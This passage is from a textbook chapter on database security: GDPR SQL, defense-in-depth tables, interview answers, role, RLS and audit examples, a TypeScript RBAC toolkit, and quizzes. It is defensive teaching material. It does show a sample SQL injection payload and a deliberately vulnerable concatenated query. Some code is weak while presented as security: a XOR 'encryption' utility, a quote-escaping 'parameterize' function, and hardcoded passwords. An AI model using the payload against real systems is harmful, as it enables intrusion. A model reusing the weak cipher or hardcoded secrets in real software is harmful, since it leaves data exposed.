-- 4. Limit access to backup files (IAM/bucket policies)
-- 5. Use immutable storage (S3 Object Lock)
-- 6. Rotate encryption keys
```

> **One-Sentence Takeaway:** GDPR compliance for databases requires data anonymization, the right to be forgotten, and audit trails for all personal data access.

### 18.10 GDPR and Data Privacy


**GDPR Principles:**
1. Lawfulness, fairness, transparency
2. Purpose limitation
3. Data minimization
4. Accuracy
5. Storage limitation
6. Integrity and confidentiality
7. Accountability

**SQL: GDPR Implementation:**

```sql
-- Data minimization: Pseudo-anonymize personal data
CREATE VIEW analytics_users AS
SELECT id, age_range(CASE WHEN age >= 18 THEN age ELSE NULL END) AS age_group,
    substring(email, 1, 1) || '@' || split_part(email, '@', 2) AS anonymized_email,
    CASE WHEN current_setting('app.purpose') = 'analytics' THEN NULL ELSE city END AS location
FROM users;

-- Right to be forgotten (Article 17)
-- Option 1: Hard delete
DELETE FROM users WHERE email = 'user@example.com';

-- Option 2: Anonymization
UPDATE users SET email = 'deleted-' || id || '@example.com',
    name = 'Deleted User', phone = NULL, address = NULL WHERE id = 42;

-- Data retention: expire old data
DELETE FROM raw_logs WHERE created_at < NOW() - INTERVAL '90 days';
```

### 18.11 Security Layers (Defense in Depth)


**Real-World Analogy — Castle Defense:**

A medieval castle doesn't rely on a single wall. It has a moat (network firewall), a drawbridge (TLS handshake), arrow slits (database authorization), guards (authentication), inner walls (RLS), and locked treasure chests (encryption). Breaking one layer doesn't grant access to the treasure. Database security follows the same principle — layered defense so no single vulnerability compromises the data.

**Security Layers Comparison:**

| Layer | Protection | Example Technology | Bypass Risk | Performance Impact |
|-------|-----------|-------------------|-------------|-------------------|
| **Network** | Restrict IP/port access | Firewall, VPC, Security Groups | Medium — misconfigured rules | None on DB server |
| **Transport** | Encrypt network traffic | TLS 1.3, mTLS | Low — unless cert validation is disabled | ~2-10% connection latency |
| **Authentication** | Verify identity | Passwords, Kerberos, MFA, LDAP | Medium — weak passwords, phishing | ~1-50ms per connection |
| **Authorization** | Control operations | GRANT/REVOKE, RBAC | Low — bypass requires privilege escalation | Minimal (cached lookups) |
| **Row-Level Security** | Filter rows by context | RLS policies, security predicates | Low — policy enforced by query rewriter | ~5-15% for policy evaluation |
| **Encryption at Rest** | Protect data files | TDE, pgcrypto, LUKS | Low — unless key is compromised | ~3-5% I/O overhead |
| **Auditing** | Detect and record | pgaudit, triggers, SIEM | Low — append-only prevents tampering | ~5-20% write throughput |
| **Application** | Validate input before DB | Parameterized queries, ORM | High — most common bypass point | None on DB server |

**Pseudocode — Defense-in-Depth Middleware:**

```
FUNCTION execute_safe_query(user, sql, params)
    // Layer 1: Network check
    IF not is_trusted_ip(user.ip) THEN
        RETURN "Error: Network policy violation"
    END IF

    // Layer 2: TLS check
    IF not connection.is_encrypted THEN
        RETURN "Error: TLS required"
    END IF

    // Layer 3: Authentication
    IF not authenticate(user.credentials) THEN
        log("FAILED_AUTH", user)
        RETURN "Error: Authentication failed"
    END IF

    // Layer 4: Authorization
    IF not authorize(user, extract_object(sql), extract_operation(sql)) THEN
        log("UNAUTHORIZED", user, sql)
        RETURN "Error: Insufficient privileges"
    END IF

    // Layer 5: Use parameterized query (SQLi prevention)
    result = DB.execute(prepared_statement(sql), params)

    // Layer 6: Audit log
    log("AUDIT", user, sql, params)

    // Layer 7: Apply RLS (automatic by DB)
    // Layer 8: Data masked at output if needed
    RETURN mask_sensitive_data(result, user.role)
END FUNCTION
```

**Complexity Analysis — Layered Security:**

| Layer | Additional Latency | Bypass Difficulty | Maintenance Cost |
|-------|-------------------|-------------------|-----------------|
| Network | 0ms (rule check in kernel) | Medium | Low (firewall rules) |
| TLS | 1-2 RTT (handshake) | Very Hard | Medium (cert renewal) |
| Auth | 0.1-50ms | Hard | Medium (user mgmt) |
| Authorization | <1ms (cached) | Hard | Medium (role design) |
| RLS | 1-5ms per query | Hard | Low (policy per table) |
| Encryption | 1-5% I/O | Very Hard | Low (key rotation) |
| Auditing | 5-20% write | Very Hard | High (log storage) |
| App-level checks | 0.1-1ms | Easy (most exploited) | Low (ORM setup) |


### 18.12 Applications in Real Systems


| Feature | MySQL | PostgreSQL | Oracle | SQL Server | AWS RDS |
|---------|--------|------------|--------|------------|---------|
| **Auth methods** | Native + LDAP + PAM | SCRAM + LDAP + GSSAPI + cert | Kerberos + LDAP + cert | Windows Auth + AD + cert | IAM + native + LDAP |
| **TDE** | Enterprise only | No native (pg_tde extension) | Yes (tablespace/column) | Yes (AES-256) | KMS + encrypted storage |
| **Column encryption** | AES_ENCRYPT/DECRYPT | pgcrypto (PGP, AES) | DBMS_CRYPTO | Always Encrypted | Application-level |
| **RLS** | Views-based (emu) | Native RLS policies | VPD (Virtual Private Database) | Row-level security | IAM policies |
| **Audit** | Enterprise Audit Plugin | pgaudit (open source) | Unified Audit | SQL Server Audit + CDC | RDS Activity Stream |
| **Data masking** | No native (views) | Custom views | Oracle Data Redaction | Dynamic Data Masking | No native (app layer) |
| **Encryption key mgmt** | No native KMS | No native KMS | Oracle Wallet | EKM + Azure Vault | AWS KMS |
| **SQLi protection** | PreparedStatement | PQexecParams | Bind variables | sp_executesql | Parameterized via SDK |
| **Backup encryption** | Enterprise + openssl | pg_dump + gpg | RMAN encryption | BACKUP WITH ENCRYPTION | KMS + S3 SSE |
| **TLS enforcement** | require_secure_transport | sslmode=verify-full | TCPS with wallet | Force Encryption | rds.force_ssl |

## Interview Corner

### Q1: How do you prevent SQL injection?

**Answer:** Parameterized queries (prepared statements) are the definitive defense. User input is never concatenated into SQL strings — it is bound as parameters. The database parses the SQL structure once, then fills in parameters separately, so user input can never alter the query structure.

```python
# SAFE — parameterized
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
# VULNERABLE — concatenation
cursor.execute(f"SELECT * FROM users WHERE username = '{username}'")
```

Additional layers: input validation (whitelist), ORM frameworks, stored procedures with bind variables, and least-privilege database accounts (app user cannot DROP). WAF is helpful but bypassable — never rely on it alone.

### Q2: Explain the principle of least privilege in databases.

**Answer:** Every database user should have the minimum permissions necessary to perform their function. Practical implementation:

- Application accounts: SELECT/INSERT/UPDATE on specific tables only
- Read-only reporting: SELECT on required columns only
- Never use superuser for application connections
- GRANT column-level access, never SELECT *
- Default-deny: REVOKE ALL FROM PUBLIC, then selectively grant
- Use roles to manage permissions at scale
- Revoke immediately when role changes

### Q3: What is the difference between encryption at rest and encryption in transit?

**Answer:**

| Aspect | Encryption at Rest | Encryption in Transit |
|--------|-------------------|---------------------|
| What it protects | Data files on disk (DB files, backups) | Network traffic between client and server |
| When it applies | Data at rest (not being queried) | Data in motion (while being transmitted) |
| Technologies | TDE, column-level, filesystem encryption | TLS 1.3, mTLS, SSH tunneling |
| Threat model | Physical theft, drive disposal, backup compromise | Network sniffing, MITM attacks |
| Key management | DB server key, application key, KMS | CA-signed certificates |
| Performance impact | 3-5% I/O overhead (TDE) | 2-10% latency for handshake |
| Can I use only one? | No — both are required; they protect different threats |

### Q4: Explain database auditing and why it matters.

**Answer:** Auditing records all security-relevant database activity — logins, DDL changes, DML on sensitive tables, privilege changes. It matters for:
- **Compliance:** GDPR, HIPAA, PCI-DSS require audit trails
- **Forensics:** Reconstruct what happened after a breach
- **Detection:** Identify suspicious patterns (mass deletes, after-hours access)
- **Deterrence:** Users are less likely to abuse access when logged

Implementation: pgaudit (PostgreSQL), built-in audit (Oracle), Audit Plugin (MySQL Enterprise), triggers on sensitive tables. Logs should be append-only and integrated with SIEM.

### Q5: What are the ACID properties and why do they matter for security?

**Answer:** ACID (Atomicity, Consistency, Isolation, Durability) ensures transaction reliability. For security:
- **Atomicity:** A security operation (GRANT, REVOKE, user creation) either fully completes or fully rolls back — no partial state
- **Consistency:** Constraints ensure data integrity; foreign keys prevent orphaned records
- **Isolation:** Concurrent security changes don't interfere
- **Durability:** Security configuration persists through crashes

Without ACID, a user creation or privilege revocation could partially apply, leaving the database in an insecure state.

### Q6: How does row-level security work in multi-tenant databases?

**Answer:** RLS automatically appends a predicate to every query based on the user's context. In PostgreSQL:

```sql
ALTER TABLE orders ENABLE ROW LEVEL SECURITY;
CREATE POLICY tenant_isolation ON orders
    USING (tenant_id = current_setting('app.tenant_id')::INT);
```

When user from tenant 42 queries `SELECT * FROM orders`, the DB internally rewrites it to `SELECT * FROM orders WHERE tenant_id = 42`. The user cannot bypass this — only superusers can, which is why apps should never connect as superuser.

### Q7: Compare DAC, MAC, RBAC, and ABAC.

**Answer:**

| Model | Control | Best For |
|-------|---------|----------|
| **DAC** (Discretionary) | Object owner sets permissions | Small teams, file systems |
| **MAC** (Mandatory) | Central authority assigns labels | Military, classified data |
| **RBAC** (Role-Based) | Permissions via roles | Enterprise, most DBMS |
| **ABAC** (Attribute-Based) | Dynamic policy evaluation | Cloud, zero-trust |

RBAC is the most common database model. ABAC is emerging in cloud databases (AWS Lake Formation, Google BigQuery) for fine-grained attribute-based access.

### Q8: How would you design a secure database architecture for a healthcare application?

**Answer:**
1. Encrypt all PHI columns with app-layer encryption (AES-256)
2. Enable TDE for disk/backup protection
3. Enforce TLS 1.3 for all connections with verify-full
4. RBAC with roles: doctor (write patients), nurse (read/update vitals), admin (billing)
5. RLS: doctors see only their patients
6. Audit ALL access to PHI with tamper-proof audit table
7. Least privilege: app user only has necessary SP execution rights
8. Regular penetration testing and vulnerability scanning
9. Backup: encrypted + immutable storage + quarterly restore test
10. Incident response plan: detect, contain, notify, remediate


## Examples

**Example 18.1: Complete Security Setup**

```sql
-- 1. Create roles hierarchy
CREATE ROLE app_readonly;
CREATE ROLE app_readwrite;
CREATE ROLE app_admin;

-- 2. Grant table-level permissions
GRANT SELECT ON ALL TABLES IN SCHEMA public TO app_readonly;
GRANT INSERT, UPDATE, DELETE ON orders, order_items, customers TO app_readwrite;
GRANT ALL PRIVILEGES ON ALL TABLES IN SCHEMA public TO app_admin;

-- 3. Create application user (least privilege)
CREATE USER web_app WITH PASSWORD 'secure_password';
GRANT app_readwrite TO web_app;

-- 4. Create admin user
CREATE USER db_admin WITH PASSWORD 'admin_password';
GRANT app_admin TO db_admin;

-- 5. Create reporting user (read-only)
CREATE USER reporting WITH PASSWORD 'report_password';
GRANT app_readonly TO reporting;

-- 6. Enable RLS for multi-tenant data
ALTER TABLE customer_orders ENABLE ROW LEVEL SECURITY;
CREATE POLICY tenant_isolation ON customer_orders
    USING (tenant_id = current_setting('app.tenant_id')::INT);
```

**Example 18.2: SQL Injection Safe Coding**

```python
import psycopg2
from psycopg2 import sql

def get_user_orders(user_id, status=None):
    conn = psycopg2.connect("dbname=mydb user=web_app")
    cur = conn.cursor()
    # SAFE: Parameterized query
    if status:
        cur.execute("""
            SELECT order_id, total, status, created_at
            FROM orders WHERE user_id = %s AND status = %s
            ORDER BY created_at DESC
        """, (user_id, status))
    else:
        cur.execute("""
            SELECT order_id, total, status, created_at
            FROM orders WHERE user_id = %s
            ORDER BY created_at DESC
        """, (user_id,))
    return cur.fetchall()
```

**Example 18.3: Audit Trail Implementation**

```sql
-- Create audit table (append-only)
CREATE TABLE audit_log (
    id BIGSERIAL PRIMARY KEY,
    user_name TEXT,
    table_name TEXT,
    operation TEXT,
    old_data JSONB,
    new_data JSONB,
    query TEXT,
    ip_address INET,
    changed_at TIMESTAMPTZ DEFAULT NOW(),
    application TEXT
);

-- Audit trigger function
CREATE OR REPLACE FUNCTION audit_trigger()
RETURNS TRIGGER AS $$
BEGIN
    INSERT INTO audit_log (user_name, table_name, operation, old_data, new_data, query, ip_address, application)
    VALUES (session_user, TG_TABLE_NAME, TG_OP,
        CASE WHEN TG_OP IN ('UPDATE','DELETE') THEN row_to_json(OLD)::JSONB ELSE NULL END,
        CASE WHEN TG_OP IN ('INSERT','UPDATE') THEN row_to_json(NEW)::JSONB ELSE NULL END,
        current_query(), inet_client_addr(), current_setting('app.name', TRUE));
    RETURN NEW;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;

-- Apply trigger to sensitive tables
CREATE TRIGGER audit_customers AFTER INSERT OR UPDATE OR DELETE ON customers
    FOR EACH ROW EXECUTE FUNCTION audit_trigger();
CREATE TRIGGER audit_payments AFTER INSERT OR UPDATE OR DELETE ON payments
    FOR EACH ROW EXECUTE FUNCTION audit_trigger();
```

**Example 18.4: Python — Complete Secure Database Wrapper:**

```python
import psycopg2
import os

class SecureDB:
    def __init__(self, dsn: str):
        self.conn = psycopg2.connect(dsn)
        self.cursor = self.conn.cursor()

    def execute(self, query: str, params: tuple) -> list:
        """Execute parameterized query safely."""
        self.cursor.execute(query, params)
        if query.strip().upper().startswith("SELECT"):
            return self.cursor.fetchall()
        self.conn.commit()
        return []

    def execute_file(self, sql_path: str) -> None:
        """Execute SQL file — only allow known paths."""
        allowed_base = "/app/migrations/"
        abs_path = os.path.abspath(sql_path)
        if not abs_path.startswith(allowed_base):
            raise PermissionError("Path not allowed for SQL execution")
        with open(abs_path) as f:
            self.cursor.execute(f.read())
        self.conn.commit()

    def get_user(self, user_id: int) -> dict | None:
        rows = self.execute("SELECT id, username, email FROM users WHERE id = %s", (user_id,))
        if rows:
            return {"id": rows[0][0], "username": rows[0][1], "email": rows[0][2]}
        return None

    def close(self):
        self.cursor.close()
        self.conn.close()
```

## Pro Tips

1. **Parameterized queries are non-negotiable** — no amount of input validation or escaping is safer than prepared statements with bound parameters. This is the #1 rule of database security.
2. **Least privilege means column-level grants** — do not grant SELECT * to application users if they only need 3 columns. Every extra column is a potential data leak.
3. **Encryption at rest is not a silver bullet** — it protects against physical theft but does not protect against SQL injection or authorized user misuse.
4. **Audit logs are useless if not reviewed** — enable auditing and set up automated alerts for suspicious patterns (mass deletes, after-hours access, privilege escalation).
5. **RLS is underused** — instead of filtering in WHERE clauses in every query, define RLS policies that automatically restrict rows based on user context.
6. **Key management is the hardest part of encryption** — use AWS KMS, HashiCorp Vault, or Azure Key Vault. Never hardcode keys in source code or config files.
7. **Test security controls regularly** — attempt SQL injection, try privilege escalation, verify RLS isolation, check encryption status. Document and fix gaps.

## One-Sentence Takeaways

- **18.1:** Database security requires defense in depth — layers of authentication, authorization, encryption, and auditing.
- **18.2:** Authentication verifies identity (who you are); authorization determines access (what you can do).
- **18.3:** SQL injection is the most critical database vulnerability — it is entirely preventable with parameterized queries.
- **18.4:** Encryption at rest (TDE, column-level) and in transit (SSL/TLS) protects data from physical and network compromise.
- **18.5:** Row-level security and dynamic data masking provide fine-grained access control beyond table-level GRANTs.
- **18.6:** Auditing is essential for compliance (GDPR, HIPAA, PCI-DSS) and breach detection.
- **18.7:** Backup security — encryption, access control, and regular restore testing — is the last line of defense.
- **18.8:** Defense in depth means no single layer is trusted; each layer assumes the one below it is compromised.

## Concept Comparison Table

| Security Layer | Protection | Implementation | Performance Impact |
|---------------|-----------|----------------|-------------------|
| **Authentication** | Prevents unauthorized access | Passwords, certificates, OAuth, LDAP, MFA | ~1-50ms per connection |
| **Authorization** | Limits what authorized users can do | GRANT/REVOKE, roles, RLS policies | <1ms (cached) |
| **Encryption at Rest** | Protects data on disk | TDE, column-level, filesystem encryption | 3-5% I/O overhead |
| **Encryption in Transit** | Protects data on the wire | SSL/TLS, certificate verification | 2-10% connection latency |
| **Auditing** | Detects and records activity | DB audit logs, triggers, SIEM integration | 5-20% write throughput |
| **Network Security** | Restricts database access | Firewalls, VPCs, private subnets, IP whitelists | None |
| **Backup Security** | Protects recovery data | Encrypted backups, access control, off-site storage | Storage + network cost |

| Vulnerability | Impact | Prevention | Example |
|--------------|--------|------------|---------|
| **SQL Injection** | Data theft, deletion, modification | Parameterized queries, ORM, input validation | `' OR 1=1 --` |
| **Weak Authentication** | Unauthorized access | Strong passwords, MFA, certificate auth | Brute force attack |
| **Unencrypted Data** | Data breach via physical theft | TDE, column encryption | Stolen backup tape |
| **Insider Threat** | Authorized user abuses access | Least privilege, RLS, auditing | Employee exports all customers |
| **Unsecured Backups** | Data breach via backup theft | Encrypted backups, access control | Backup S3 bucket misconfigured |

## Quick Reference

| Best Practice | Why | How |
|--------------|-----|-----|
| **Parameterized queries** | Prevents SQL injection 100% | Use placeholders (%s, $1, ?) with bound parameters |
| **Least privilege** | Minimizes breach impact | GRANT only needed columns/rows; use roles |
| **SSL/TLS enforcement** | Prevents network sniffing | `sslmode=require`, disable non-TLS connections |
| **Regular patching** | Fixes known vulnerabilities | Stay current with DBMS security releases |
| **Audit logging** | Detects breaches | Enable logging on sensitive tables + alerts |
| **Encryption at rest** | Physically protects data | Enable TDE or column-level encryption |
| **Backup encryption** | Protects recovery data | Encrypt backup files; test restore periodically |
| **Key management** | Prevents key exposure | Use KMS/Vault; never hardcode keys |
| **RLS policies** | Multi-tenant isolation | `ALTER TABLE t ENABLE ROW LEVEL SECURITY` |

## Cross-Application Matrix

| Security Technique | Applied In | Why It Matters |
|-------------------|-----------|----------------|
| **Parameterized Queries** | All web applications | Only reliable defense against SQL injection |
| **Row-Level Security** | Multi-tenant SaaS | Each tenant sees only their own data automatically |
| **Column Encryption** | Healthcare (HIPAA), Finance (PCI) | Protects sensitive fields (SSN, credit card numbers) |
| **Transparent Data Encryption** | Enterprise databases | Protects backup files and disk theft |
| **GRANT/REVOKE + Roles** | Multi-user systems | Manage permissions at scale without per-user grants |
| **Audit Logs** | Compliance-required environments | Meet GDPR, HIPAA, PCI-DSS audit requirements |
| **Connection Pooling + SSL** | All production deployments | Secure, efficient database connections |


### 18.10 TypeScript RBAC & SQL Injection Prevention Toolkit

The code below implements Role-Based Access Control (RBAC), encryption utilities, and SQL injection prevention techniques.

```typescript
// ============================================================
// Database Security Toolkit — TypeScript
// ============================================================

// === RBAC Implementation ===
type Permission = 'SELECT' | 'INSERT' | 'UPDATE' | 'DELETE' | 'CREATE' | 'DROP' | 'ALTER';

class Role {
  private permissions = new Set<string>();

  constructor(public name: string, inherited?: Role[]) {
    if (inherited) for (const role of inherited) {
      for (const perm of role.getPermissions()) this.permissions.add(perm);
    }
  }

  grant(permission: Permission, table?: string): void {
    this.permissions.add(table ? permission + ':' + table : permission);
  }

  revoke(permission: Permission, table?: string): void {
    this.permissions.delete(table ? permission + ':' + table : permission);
  }

  hasPermission(permission: Permission, table?: string): boolean {
    const specific = table ? permission + ':' + table : permission;
    return this.permissions.has(specific) || this.permissions.has(permission + ':*');
  }

  getPermissions(): string[] {
    return [...this.permissions];
  }
}

class User {
  private roles: Role[] = [];

  constructor(public username: string) {}

  addRole(role: Role): void { this.roles.push(role); }
  removeRole(role: Role): void {
    this.roles = this.roles.filter(r => r.name !== role.name);
  }

  can(permission: Permission, table?: string): boolean {
    return this.roles.some(r => r.hasPermission(permission, table));
  }
}

// === SQL Injection Prevention ===
class SQLSafeQueryBuilder {
  private params: unknown[] = [];
  private queryParts: string[] = [];

  select(columns: string[]): this {
    this.queryParts.push('SELECT ' + columns.join(', '));
    return this;
  }

  from(table: string): this {
    this.queryParts.push('FROM ' + this.sanitizeIdentifier(table));
    return this;
  }

  where(condition: string, ...values: unknown[]): this {
    this.queryParts.push('WHERE ' + condition);
    this.params.push(...values);
    return this;
  }

  and(condition: string, ...values: unknown[]): this {
    this.queryParts.push('AND ' + condition);
    this.params.push(...values);
    return this;
  }

  orderBy(column: string, direction: 'ASC' | 'DESC' = 'ASC'): this {
    this.queryParts.push('ORDER BY ' + this.sanitizeIdentifier(column) + ' ' + direction);
    return this;
  }

  limit(n: number): this {
    this.queryParts.push('LIMIT ' + n);
    return this;
  }

  build(): { query: string; params: unknown[] } {
    return { query: this.queryParts.join(' '), params: this.params };
  }

  private sanitizeIdentifier(id: string): string {
    // Whitelist: only allow alphanumeric and underscore
    return id.replace(/[^a-zA-Z0-9_]/g, '');
  }

  // Static: parameterize values
  static parameterize(value: string): string {
    return value.replace(/'/g, "''"); // Escape single quotes
  }
}

// === Encryption Utility (AES-like concept) ===
class SimpleCipher {
  static xorEncrypt(value: string, key: string): string {
    let result = '';
    for (let i = 0; i < value.length; i++) {
      const charCode = value.charCodeAt(i) ^ key.charCodeAt(i % key.length);
      result += String.fromCharCode(charCode);
    }
    return Buffer.from(result, 'binary').toString('base64');
  }

  static xorDecrypt(encrypted: string, key: string): string {
    const decoded = Buffer.from(encrypted, 'base64').toString('binary');
    let result = '';
    for (let i = 0; i < decoded.length; i++) {
      const charCode = decoded.charCodeAt(i) ^ key.charCodeAt(i % key.length);
      result += String.fromCharCode(charCode);
    }
    return result;
  }
}

// Demo
console.log('=== Database Security Demo ===\n');

// RBAC Demo
const adminRole = new Role('admin');
adminRole.grant('SELECT', '*');
adminRole.grant('INSERT', '*');
adminRole.grant('UPDATE', '*');
adminRole.grant('DELETE', '*');

const readOnlyRole = new Role('readonly');
readOnlyRole.grant('SELECT', '*');

const analystRole = new Role('analyst', [readOnlyRole]);
analystRole.grant('SELECT', 'reports');

const alice = new User('alice');
alice.addRole(adminRole);
console.log('Alice (admin) can SELECT employees: ' + alice.can('SELECT', 'employees'));
console.log('Alice (admin) can DROP employees: ' + alice.can('DROP', 'employees'));

const bob = new User('bob');
bob.addRole(readOnlyRole);
console.log('Bob (readonly) can SELECT employees: ' + bob.can('SELECT', 'employees'));
console.log('Bob (readonly) can INSERT employees: ' + bob.can('INSERT', 'employees'));

// SQL Injection Prevention Demo
const queryBuilder = new SQLSafeQueryBuilder();
const safe = queryBuilder
  .select(['id', 'name'])
  .from('users')
  .where('username = ?', 'alice')
  .and('password_hash = ?', 'abc123')
  .build();
console.log('\nSafe query: ' + safe.query);
console.log('Parameters: ' + JSON.stringify(safe.params));

// Encryption Demo
const key = 'secret-key-2026';
const original = 'credit_card_4111-1111-1111-1111';
const encrypted = SimpleCipher.xorEncrypt(original, key);
const decrypted = SimpleCipher.xorDecrypt(encrypted, key);
console.log('\nEncryption demo:');
console.log('  Original: ' + original);
console.log('  Encrypted: ' + encrypted);
console.log('  Decrypted: ' + decrypted);
```

**Mermaid Diagram: Database Security Layers**



### Additional Chapter Quiz Questions

11. The principle of least privilege means:
    a) Users should have no privileges
    b) Users should have only the minimum privileges needed for their work
    c) All users should have the same privileges
    d) Privileges should never be revoked

12. SQL injection occurs when:
    a) The database is injected with new SQL commands
    b) User input is concatenated directly into SQL queries without sanitization
    c) SQL queries are too long
    d) The database runs out of memory

13. Transparent Data Encryption (TDE) protects data:
    a) Only in transit over the network
    b) At rest on disk
    c) Only in memory
    d) Only in backups

14. Row-level security (RLS) allows:
    a) Encrypting entire tables
    b) Restricting which rows a user can access based on a policy
    c) Creating backups of individual rows
    d) Indexing specific rows

**Answers:** 11-b, 12-b, 13-b, 14-b

---

## Chapter Quiz

1. The most effective defense against SQL injection is:
   a) Input validation
   b) Parameterized queries
   c) Escaping special characters
   d) WAF (Web Application Firewall)

2. Least privilege means:
   a) Granting all permissions and removing only dangerous ones
   b) Granting the minimum permissions needed for a task
   c) Using a single admin account for all operations
   d) Only using SELECT statements

3. Transparent Data Encryption (TDE) protects against:
   a) SQL injection
   b) Physical theft of storage media
   c) Authorized user misuse
   d) Network sniffing

4. Row-Level Security (RLS) is used to:
   a) Encrypt individual rows
   b) Automatically filter rows based on user context
   c) Create indexes on rows
   d) Compress row data

5. Which is NOT a recommended backup security practice?
   a) Encrypt backup files
   b) Test restore procedures
   c) Store unencrypted backups for faster recovery
   d) Control access to backup storage

6. SSL/TLS in database connections protects against:
   a) SQL injection
   b) Network sniffing (man-in-the-middle)
   c) Disk failure
   d) Authentication bypass

7. Database auditing is primarily used for:
   a) Performance tuning
   b) Detecting and recording security-relevant activities
   c) Query optimization
   d) Data compression

8. Which SQL injection type uses response timing to extract data?
   a) Union-based
   b) Error-based
   c) Blind time-based
   d) Out-of-band

9. In RBAC, what happens when a user has no matching permission for an operation?
   a) The operation is allowed by default
   b) The operation is denied (default-deny principle)
   c) The system asks the admin for approval
   d) The user inherits the nearest role's permission

10. Which encryption method protects data while it is being transmitted between client and server?
    a) TDE
    b) Column-level encryption
    c) TLS
    d) Filesystem encryption

**Answers:** 1-b, 2-b, 3-b, 4-b, 5-c, 6-b, 7-b, 8-c, 9-b, 10-c

## Summary

- Database security requires defense in depth: authentication, authorization, encryption, auditing, and backups.
- SQL injection is the most critical risk — always use parameterized queries. No other defense is equivalent.
- Least privilege: grant minimum permissions needed, never use superuser for apps. Use column-level GRANTs.
- Encryption at rest (TDE, column-level) protects data on disk; encryption in transit (TLS 1.3) protects data on the network. Both are required.
- Row-level security automatically filters rows by user context — ideal for multi-tenant applications.
- Dynamic data masking hides sensitive data from non-privileged users at query time.
- Auditing is essential for compliance (GDPR, HIPAA, PCI-DSS) and breach detection. Append-only logs prevent tampering.
- GDPR requires data minimization, right to be forgotten, and retention policies.
- Key management is the hardest part of encryption — use KMS/Vault, never hardcode keys.
- Backups must be encrypted, stored immutably, and tested regularly.

## Exercises

### Basic

1. Explain the principle of least privilege in database security. Give an example of a good vs. poor permission setup for an e-commerce application user.

2. What is SQL injection? Write an example of vulnerable code and its safe equivalent using parameterized queries in Python and Java.

3. What is the difference between encryption at rest and encryption in transit? When is each needed?

4. Create a PostgreSQL user with SELECT-only access on the `orders` table.

### Intermediate

5. Design a role hierarchy for a hospital database with: doctors (read/write patient records), nurses (read patient records, update vitals), administrators (read billing data), and auditors (read-only everything). Show the SQL to create roles, grant permissions, and assign users.

6. Implement row-level security for a multi-tenant SaaS application. Each tenant should only see their own data. Show the RLS policy and explain how it works at query time.

7. Write a SQL injection attack and defense walkthrough:
   - Show the vulnerable query
   - Demonstrate three different injection payloads (Union, Blind, Boolean)
   - Show the corrected parameterized version
   - Explain why the parameterized version is safe

8. What is the difference between dynamic data masking and encryption? When would you use each? Can a user bypass data masking?

### Advanced

9. Design a complete database security audit system that:
   - Logs all DDL changes (schema modifications)
   - Logs all DML on sensitive tables (customers, payments)
   - Logs all failed login attempts
   - Provides a query interface for the security team to search audit logs
   - Implements audit log retention and rotation
   - Prevents tampering with audit logs (append-only)
   Show the schema, triggers, and queries.

10. Implement a key management system for column-level encryption:
    - Use a master key stored in an external vault (HashiCorp Vault or AWS KMS)
    - Generate data encryption keys per table/column
    - Rotate keys without re-encrypting all data (envelope encryption)
    - Handle key loss recovery
    Show the architecture, SQL functions, and key lifecycle.

11. GDPR's "right to be forgotten" (Article 17) requires deletion of personal data on request. But in a relational database, deleting a user's data may violate referential integrity and destroy analytics data. Design a strategy that:
    - Removes personally identifiable information (PII)
    - Preserves aggregate analytics and business records
    - Maintains referential integrity
    - Supports audit requirements
    - Works at scale (millions of users)
    Compare hard delete, soft delete, and anonymization approaches.

12. Implement an ABAC authorization check for a cloud database. A user can read a document only if:
    - Their department matches the document.department
    - The current time is within business hours (9 AM - 5 PM)
    - Their clearance level >= document.classification
    Show the policy logic in pseudocode or Python, then explain how this differs from RBAC.

13. Compare the performance impact of TDE vs column-level encryption for a table with 10M rows. Estimate query latency, storage overhead, and maintenance operations for each approach.

